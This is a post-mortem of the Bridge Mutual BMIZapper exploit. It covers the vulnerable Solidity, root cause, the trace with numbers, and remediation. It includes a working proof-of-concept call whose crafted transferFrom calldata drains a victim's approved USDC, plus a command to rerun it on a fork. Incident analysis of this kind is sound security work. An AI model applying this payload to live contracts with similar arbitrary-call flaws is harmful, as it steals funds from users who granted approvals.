


# Bridge Mutual `BMIZapper` Exploit — Arbitrary External Call Drains Pre-Approved User Funds

> **Vulnerability classes:** vuln/dependency/unsafe-external-call · vuln/access-control/missing-validation

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo contains many unrelated PoCs that do
> not whole-compile, so this one was extracted).
> Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source: [sources/BMIZapper_4622aF/BMIZapper.sol](sources/BMIZapper_4622aF/BMIZapper.sol).

---

## Key info

| | |
|---|---|
| **Loss** | **114,146.247097 USDC** (~$114K) drained from a single victim |
| **Vulnerable contract** | `BMIZapper` — [`0x4622aFF8E521A444C9301dA0efD05f6b482221b8`](https://etherscan.io/address/0x4622aff8e521a444c9301da0efd05f6b482221b8#code) |
| **Victim** | `0x07d7685bECB1a72a1Cf614b4067419334C9f1b4d` (an EOA that had granted USDC allowance to the zapper) |
| **Attacker EOA** | [`0x63136677355840f26c0695dd6de5c9e4f514f8e8`](https://etherscan.io/address/0x63136677355840f26c0695dd6de5c9e4f514f8e8) |
| **Attacker contract** | [`0xae5919160a646f5d80d89f7aae35a2ca74738440`](https://etherscan.io/address/0xae5919160a646f5d80d89f7aae35a2ca74738440) |
| **Attack tx** | [`0x97201900198d0054a2f7a914f5625591feb6a18e7fc6bb4f0c964b967a6c15f6`](https://app.blocksec.com/explorer/tx/eth/0x97201900198d0054a2f7a914f5625591feb6a18e7fc6bb4f0c964b967a6c15f6) |
| **Chain / block / date** | Ethereum mainnet / 19,029,289 (fork block) / January 2024 |
| **Compiler** | Solidity `v0.7.3+commit.9bfce1f6`, optimizer **200 runs** (per [`_meta.json`](sources/BMIZapper_4622aF/_meta.json)) |
| **Bug class** | Arbitrary external call to attacker-controlled target with attacker-controlled calldata (unvalidated "aggregator" parameter) — abuse of victims' standing token approvals |

---

## TL;DR

`BMIZapper.zapToBMI()` lets a caller pass an arbitrary `_aggregator` address together with an arbitrary
`_aggregatorData` byte string. Deep in the conversion path, the zapper executes that raw payload with a
low-level call: **`(bool success, ) = _aggregator.call(_aggregatorData);`**
([sources/BMIZapper_4622aF/BMIZapper.sol#L416](sources/BMIZapper_4622aF/BMIZapper.sol#L416)). There is **no
allowlist** of valid aggregators and **no validation** of the calldata. The call executes *in the
zapper's own context* (`msg.sender == BMIZapper`).

Because users who use the zapper must first `approve()` the BMIZapper to spend their stablecoins, the
zapper effectively holds standing allowances on behalf of many addresses. The attacker simply asked the
zapper to call the **USDC token contract** with the payload
`transferFrom(victim, attacker, victimBalance)`. The zapper — being the approved spender — happily
pulled **114,146.247097 USDC** out of the victim and sent it straight to the attacker.

The attacker supplied `_amount = 0` and a "bare" `_from` token (`BUSD`) so that the zapper transferred 0
tokens from *itself*, skipped every real swap/mint step, and reached the malicious `.call` with the
minimum of friction.

---

## Background — what `BMIZapper` is for

Bridge Mutual's `BMIZapper` is a convenience "zap" router: a user hands it almost any stablecoin or
stablecoin-derivative (bare stables like DAI/USDC/USDT/BUSD, Yearn vaults, Compound cTokens, Aave
aTokens, Curve LP tokens) and the zapper converts everything into USDC and then mints the protocol's
`BMI` basket token in one transaction
([`zapToBMI`, sources/BMIZapper_4622aF/BMIZapper.sol#L240-L348](sources/BMIZapper_4622aF/BMIZapper.sol#L240-L348)).

To convert exotic inputs to USDC, the zapper supports an off-chain-routed swap: the front-end computes a
swap route through some DEX **aggregator** (e.g. 1inch / 0x / Paraswap) and passes the aggregator's
address plus its pre-built calldata into `zapToBMI`. The zapper approves the aggregator and then calls
it:

```solidity
// _primitiveToBMI(...), sources/BMIZapper_4622aF/BMIZapper.sol#L411-L422
if (_token != DAI && _token != USDC && _token != USDT) {
    IERC20(_token).safeApprove(_aggregator, 0);
    IERC20(_token).safeApprove(_aggregator, _amount);

    (bool success, ) = _aggregator.call(_aggregatorData);   // ⚠️ arbitrary target, arbitrary data
    require(success, "!swap");

    // Always goes to USDC
    _token = USDC;
}
```

This "call an arbitrary aggregator with arbitrary calldata" pattern is only safe if (a) the target is
restricted to a vetted allowlist, and (b) the contract holds no value or approvals that the call could
abuse. `BMIZapper` satisfies neither: it accepts any `_aggregator`, and it is the standing approved
spender for every user who ever interacted with it.

---

## The vulnerable code

### 1. `zapToBMI` accepts a fully attacker-controlled aggregator + payload

```solidity
// sources/BMIZapper_4622aF/BMIZapper.sol#L240-L267
function zapToBMI(
    address _from,
    uint256 _amount,
    address _fromUnderlying,
    uint256 _fromUnderlyingAmount,
    uint256 _minBMIRecv,
    address[] memory _bmiConstituents,
    uint256[] memory _bmiConstituentsWeightings,
    address _aggregator,            // ← attacker picks any address
    bytes memory _aggregatorData,   // ← attacker picks any calldata
    bool refundDust
) public returns (uint256) {
    uint256 sum = 0;
    for (uint256 i = 0; i < _bmiConstituentsWeightings.length; i++) {
        sum = sum.add(_bmiConstituentsWeightings[i]);
    }
    // Sum should be between 0.999 and 1.000
    assert(sum <= 1e18);
    assert(sum >= 999e15);

    // Transfer to contract
    IERC20(_from).safeTransferFrom(msg.sender, address(this), _amount);  // _amount = 0 → no-op

    // Primitive
    if (_isBare(_from)) {
        _primitiveToBMI(_from, _amount, _bmiConstituents, _bmiConstituentsWeightings, _aggregator, _aggregatorData);
    }
    ...
```

The `_aggregator` / `_aggregatorData` pair flows unchanged into `_primitiveToBMI` on **every** branch
that handles a swappable input
([L266](sources/BMIZapper_4622aF/BMIZapper.sol#L266),
[L271-L278](sources/BMIZapper_4622aF/BMIZapper.sol#L271-L278),
[L297-L304](sources/BMIZapper_4622aF/BMIZapper.sol#L297-L304),
[L312-L319](sources/BMIZapper_4622aF/BMIZapper.sol#L312-L319)).

### 2. The unvalidated low-level call

```solidity
// _primitiveToBMI(...), sources/BMIZapper_4622aF/BMIZapper.sol#L400-L422
function _primitiveToBMI(
    address _token,
    uint256 _amount,
    address[] memory _bmiConstituents,
    uint256[] memory _bmiConstituentsWeightings,
    address _aggregator,
    bytes memory _aggregatorData
) internal {
    uint256 offset = 0;

    // Primitive to USDC (if not already USDC)
    if (_token != DAI && _token != USDC && _token != USDT) {   // BUSD ≠ these → branch taken
        IERC20(_token).safeApprove(_aggregator, 0);
        IERC20(_token).safeApprove(_aggregator, _amount);      // approve 0 BUSD → harmless

        (bool success, ) = _aggregator.call(_aggregatorData);  // ⚠️ THE BUG (L416)
        require(success, "!swap");

        _token = USDC;
    }
    ...
```

The two `safeApprove` calls only touch `_token` (BUSD), and `_amount` is 0, so they do nothing useful or
harmful. The **only** load-bearing line is `L416`: it lets the attacker make the zapper call *any
contract* with *any data*.

### 3. `_isBare` lets the attacker pick a benign-looking `_from`

```solidity
// sources/BMIZapper_4622aF/BMIZapper.sol#L585-L597
function _isBare(address _token) internal pure returns (bool) {
    return (_token == DAI || _token == USDC || _token == USDT || _token == TUSD ||
        _token == SUSD || _token == BUSD || _token == USDP || _token == FRAX ||
        _token == ALUSD || _token == LUSD || _token == USDN);
}
```

`BUSD` is "bare", so `zapToBMI` routes straight to `_primitiveToBMI` (no Yearn/Compound/Aave/Curve
unwinding). And because `BUSD != USDC/USDT/DAI`, the `if` at
[L412](sources/BMIZapper_4622aF/BMIZapper.sol#L412) is entered, reaching the malicious call.

---

## Root cause — why it was possible

A zap router that proxies user-built aggregator calldata is, in effect, a *generic call-forwarder*. That
is only safe under two conditions, **both** of which `BMIZapper` violates:

1. **The call target must be on a hard allowlist.** `BMIZapper` performs
   `_aggregator.call(_aggregatorData)` against an address chosen entirely by the caller, with zero
   validation of the target or of the function selector inside `_aggregatorData`. An attacker can point
   it at *any* ERC-20 (here, USDC) or any other contract.

2. **The forwarder must not be a privileged actor.** To use the zapper at all, users `approve()` the
   zapper to spend their tokens. The zapper therefore *is* the approved `transferFrom` spender for many
   addresses. Combining (1) and (2): the attacker makes the zapper call `USDC.transferFrom(victim,
   attacker, amount)`. Since `msg.sender` of that inner call is the zapper, and the zapper is an approved
   spender of the victim, USDC honours the transfer. **The zapper's own approvals are turned against its
   users.**

The vulnerability is *not* in USDC, BUSD, or BMI — it is purely the missing allowlist/validation around
the arbitrary external call. The attacker needs no special role; `zapToBMI` is `public`. The "swap"
abstraction silently became "execute arbitrary code as the zapper."

---

## Preconditions

- **A victim with a standing USDC approval to the BMIZapper.** Anyone who previously used (or approved
  for future use) the zapper, leaving a non-zero `allowance(victim, BMIZapper)` on USDC, is drainable up
  to that allowance. The victim `0x07d7…1b4d` had approved at least 114,146.247097 USDC (the trace shows
  the `transferFrom` succeeding and the allowance slot decreasing — see storage change at
  [output.txt#L56](output.txt) where the allowance word goes from `…f5396ef0` to `…e56193ed37`).
- **No timing, balance, or role gates.** `zapToBMI` is permissionless. The attacker supplies
  `_amount = 0` (so the initial `safeTransferFrom(msg.sender, …, 0)` is a no-op),
  `_bmiConstituents = []`, and `_bmiConstituentsWeightings = [1e18]` so the `assert` weight checks at
  [L257-L259](sources/BMIZapper_4622aF/BMIZapper.sol#L257-L259) pass (`sum == 1e18`).
- **Per-victim repeatable.** The attack is one call per victim; it can be batched across every address
  with an outstanding allowance.

---

## Attack walkthrough (with on-chain numbers from the trace)

All numbers below are taken directly from [output.txt](output.txt). USDC has 6 decimals, so
`114146247097` raw = **114,146.247097 USDC**.

The attacker calls (see [test/Bmizapper_exp.sol#L63-L74](test/Bmizapper_exp.sol#L63-L74)):

```solidity
bytes memory maliciousCallData =
    abi.encodeWithSignature("transferFrom(address,address,uint256)", victim, attacker, victimBalance);

bmiZapper.zapToBMI(
    address(BUSD),    // _from  → "bare", routes to _primitiveToBMI
    0,                // _amount → safeTransferFrom(...,0) no-op
    address(0),       // _fromUnderlying
    0,                // _fromUnderlyingAmount
    0,                // _minBMIRecv → final require(bmiBal >= 0) trivially passes
    new address[](0), // _bmiConstituents = []
    [1e18],           // _bmiConstituentsWeightings → sum == 1e18, asserts pass
    address(USDC),    // _aggregator  → attacker points the call at USDC
    maliciousCallData,// _aggregatorData → transferFrom(victim, attacker, 114146.247097)
    true              // refundDust
);
```

| # | Step (trace ref) | Concrete numbers | Effect |
|---|------------------|------------------|--------|
| 0 | **Pre-state** ([output.txt#L21-L29](output.txt)) | victim USDC balance = `114146247097` (114,146.247097) | Victim holds the funds and has approved the zapper. |
| 1 | `zapToBMI(...)` entered ([output.txt#L34](output.txt)) | `_from = BUSD`, `_amount = 0`, `_aggregator = USDC` | Weight asserts pass (`sum = 1e18`). |
| 2 | `BUSD.transferFrom(attacker, zapper, 0)` ([output.txt#L35-L39](output.txt)) | value = 0 | No-op; just satisfies [L262](sources/BMIZapper_4622aF/BMIZapper.sol#L262). |
| 3 | `_isBare(BUSD) == true` → `_primitiveToBMI(BUSD, 0, …)` | — | Skips Yearn/Compound/Aave/Curve unwinding. |
| 4 | `BUSD.approve(USDC, 0)` then `BUSD.approve(USDC, 0)` ([output.txt#L40-L49](output.txt)) | both value = 0 | Harmless `safeApprove` of 0 BUSD ([L413-L414](sources/BMIZapper_4622aF/BMIZapper.sol#L413-L414)). |
| 5 | **`USDC.call(transferFrom(victim, attacker, 114146247097))`** ([output.txt#L50-L58](output.txt)) | `from = victim`, `to = attacker`, `value = 114146247097` | ⚠️ The bug. Zapper is the approved spender → transfer succeeds. Victim balance `1a93a581b9 → 0`, attacker balance credited, allowance word decremented. |
| 6 | Post-swap bookkeeping ([output.txt#L59-L171](output.txt)) | BMI `totalSupply` read; `BMI.mint(0)`; zapper USDC balance = 0 | `_amount`-driven mint is 0, `refundDust` transfers the zapper's own (zero) USDC balance. Nothing else moves. |
| 7 | **Post-state** ([output.txt#L172-L189](output.txt)) | victim USDC = `0`; attacker USDC = `114146247097` | Full balance stolen. `require(_bmiBal >= _minBMIRecv)` with `_minBMIRecv = 0` passes. |

The single state change that matters is step 5. Everything else in the trace is the zapper dutifully
executing its (now-pointless) mint/refund logic on zero balances.

### Profit / loss accounting

| Party | USDC before | USDC after | Delta |
|---|---:|---:|---:|
| **Victim** `0x07d7…1b4d` | 114,146.247097 | 0.000000 | **−114,146.247097** |
| **Attacker** `0x7FA9…1496` (PoC `this`) | 0.000000 | 114,146.247097 | **+114,146.247097** |
| Zapper | 0 | 0 | 0 |

The attacker spent only gas. The entire victim balance — bounded only by the victim's outstanding USDC
allowance to the zapper — was transferred out in one call. In the live incident the reported total loss
was ~114,000 USDC.

---

## Diagrams

### Sequence of the attack

```mermaid
sequenceDiagram
    autonumber
    actor A as "Attacker"
    participant Z as "BMIZapper (approved spender)"
    participant U as "USDC token"
    participant V as "Victim (had approved Z)"

    Note over Z,V: Pre-state: allowance(Victim → Z) ≥ 114,146.247097 USDC<br/>Victim USDC balance = 114,146.247097

    A->>Z: "zapToBMI(BUSD, 0, ..., aggregator=USDC,<br/>data=transferFrom(Victim, A, 114146247097), ...)"
    Z->>Z: "weight asserts pass (sum = 1e18)"
    Z->>U: "BUSD.transferFrom(A, Z, 0)  (no-op)"
    Z->>Z: "_isBare(BUSD) → _primitiveToBMI(BUSD, 0, ...)"
    Z->>U: "BUSD.approve(USDC, 0)  (harmless)"
    rect rgb(255,205,210)
    Note over Z,U: THE BUG — L416 arbitrary call
    Z->>U: "USDC.call( transferFrom(Victim, A, 114146247097) )"
    U->>V: "debit 114,146.247097 USDC"
    U-->>A: "credit 114,146.247097 USDC"
    U-->>Z: "returns true"
    end
    Z->>Z: "BMI.mint(0); refundDust → transfer 0 USDC"
    Z-->>A: "return (bmiBal = 0 ≥ _minBMIRecv = 0)"
    Note over A: "Net: +114,146.247097 USDC stolen from Victim"
```

### Control flow into the vulnerable call



### Why the arbitrary call is dangerous: trust inversion



---

## Why each chosen parameter matters

- **`_from = BUSD`:** `BUSD` is in `_isBare`, so the call routes straight to `_primitiveToBMI` with no
  Yearn/Compound/Aave/Curve unwinding (which would revert or require real balances). Critically `BUSD` is
  **not** USDC/USDT/DAI, so the `if` at [L412](sources/BMIZapper_4622aF/BMIZapper.sol#L412) is entered
  and the malicious `.call` at [L416](sources/BMIZapper_4622aF/BMIZapper.sol#L416) is reached.
- **`_amount = 0`:** makes `safeTransferFrom(attacker, zapper, 0)` and `safeApprove(USDC, 0)` harmless
  no-ops, so the attacker needs no BUSD and grants no real approval.
- **`_aggregator = USDC`:** the call target. The attacker doesn't actually want a swap; they want the
  zapper to call the USDC contract.
- **`_aggregatorData = transferFrom(victim, attacker, 114146247097)`:** the payload that moves the
  victim's *entire* USDC balance, using the zapper's standing allowance as the spender.
- **`_minBMIRecv = 0`:** the final sanity check `require(_bmiBal >= _minBMIRecv)`
  ([L336](sources/BMIZapper_4622aF/BMIZapper.sol#L336)) trivially passes even though zero BMI is minted.
- **`weightings = [1e18]`:** makes `sum == 1e18`, satisfying both asserts at
  [L257-L259](sources/BMIZapper_4622aF/BMIZapper.sol#L257-L259).

---

## Remediation

1. **Allowlist the aggregator.** Maintain an admin-curated set of vetted aggregator addresses (1inch, 0x,
   Paraswap routers) and `require(isAllowedAggregator[_aggregator])` before the call. Never call a
   caller-supplied arbitrary address.
2. **Validate or constrain the calldata.** At minimum, forbid the call target from being any known token
   the protocol (or its users) approve — in particular reject `_aggregator == USDC/DAI/USDT/...` and any
   address for which the zapper holds approvals. Better: decode and check the selector, or use an
   aggregator-specific adapter that only emits known-safe calls.
3. **Never hold standing approvals for value you forward.** Use the pull-then-zap-then-refund pattern with
   **exact-amount, single-use** approvals inside the transaction, and have users approve the *exact*
   amount per zap rather than `type(uint256).max`. A forwarder that accumulates open allowances is a
   honeypot for an arbitrary-call bug.
4. **Bound the call to the token actually being swapped.** The swap step should only ever move the
   `_token` the zapper just received (`_amount` of it), not arbitrary other tokens. Verify the zapper's
   USDC balance *increased* by the expected output and that no other balances moved, reverting otherwise.
5. **Separate "convert" from "call".** Use typed router interfaces (`ISwapRouter.exactInput(...)`) instead
   of a raw `address.call(bytes)`; this removes the arbitrary-target/arbitrary-selector surface entirely.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has many
unrelated PoCs that fail to whole-compile under `forge test`):

```bash
_shared/run_poc.sh 2024-01-Bmizapper_exp -vvvvv
```

- RPC: an Ethereum **mainnet archive** endpoint is required (the fork block is 19,029,289, i.e.
  `19_029_290 - 1`, set in [test/Bmizapper_exp.sol#L42](test/Bmizapper_exp.sol#L42)). Pruned RPCs will
  fail to serve historical state at that block.
- Result: `[PASS] testExploit()` — victim's USDC goes to 0 and the attacker ends with the full
  114,146.247097 USDC.

Expected tail (from [output.txt](output.txt)):

```
[PASS] testExploit() (gas: 379562)
Logs:
  Victim's USDC balance before exploit: 114146.247097
  Victim's USDC balance after exploit: 0.000000
  Attacker's USDC balance after exploit: 114146.247097

Suite result: ok. 1 passed; 0 failed; 0 skipped
```

---

*Reference: the attack abused outstanding USDC approvals granted to the Bridge Mutual `BMIZapper`;
total reported loss ~114K USDC. Original analysis: https://x.com/0xmstore/status/1747756898172952725*
